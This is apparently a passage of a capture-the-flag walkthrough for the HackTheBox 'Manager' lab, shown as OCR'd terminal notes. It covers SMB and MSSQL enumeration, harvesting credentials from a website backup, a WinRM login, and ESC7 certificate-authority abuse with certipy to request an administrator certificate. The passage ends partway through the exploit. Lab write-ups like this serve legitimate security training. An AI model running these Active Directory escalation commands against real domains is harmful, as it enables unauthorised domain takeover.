 ```
		SYSVOL          Disk      Logon server share 
	Reconnecting with SMB1 for workgroup listing.
	do_connect: Connection to 10.129.136.168 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
	Unable to connect with SMB1 -- no workgroup available
	
	[★]$ smbclient -L //10.129.136.168 -U zhong
	Password for [WORKGROUP\zhong]: {input zhong}
	session setup failed: NT_STATUS_LOGON_FAILURE
5. Use the found user/pass pair to access the MSSQL Server.
   By cmd: impacket-mssqlclient manager/operator:operator@manager.htb -windows-auth
6. list folders by cmd: xp-dirtree
   (https://stackoverflow.com/questions/26750054/xp-dirtree-in-sql-server)
7. list found folder: xp_dirtree \inetpub\wwwroot (find website-backup-27-07-23-old.zip)
8. download it from http://manager.htb/website-backup-27-07-23-old.zip
9. unzip and grep "password", find file ".old-conf.xml" has it.
     (<user>raven@manager.htb</user>
      <password>R4v3nBe5tD3veloP3r!123</password>)
10. login by evil-winrm: evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

(priv esclation)

11. try to identify potential misconfigurations within the Certification Authority by certipy:
    certipy find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable
    (output shows:  [!] Vulnerabilities ESC7: 'MANAGER.HTB\\Raven' has dangerous permissions)
12. The user Raven possesses hazardous permissions, particularly having "ManageCA" rights over the Certification Authority.
    This implies that by leveraging the ESC7 scenario,
    we could potentially elevate our privileges to Domain Admin while operating as user Raven.
    ref: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7
    Abuse steps:
      a. You can grant yourself the Manage Certificates access right by adding your user as a new officer.
      b. The SubCA template can be enabled on the CA with the -enable-template parameter. By default, the SubCA template is enabled.
      c. If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.
         This request will be denied, but we will save the private key and note down the request ID.
      d. With our Manage CA and Manage Certificates,
         we can then issue the failed certificate request with the ca command and the -issue-request <requestID> parameter.
      e. And finally, we can retrieve the issued certificate with the req command and the -retrieve <request ID> parameter.

13. exploit it: certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug
      ([*] Successfully added officer 'Raven' on 'manager-dc01-ca')
14.  we are officer, we can issue and manage certificates.
    cmd: certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca
      ([*] Successfully enabled 'SubCA' on 'manager-dc01-ca')
15. check the enabled certificate templates by: certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -list-templates
16. certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
    ( [*] Requesting certificate via RPC
	[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
	[*] Request ID is 19
	Would you like to save the private key? (y/N) y
	[*] Saved private key to 19.key
```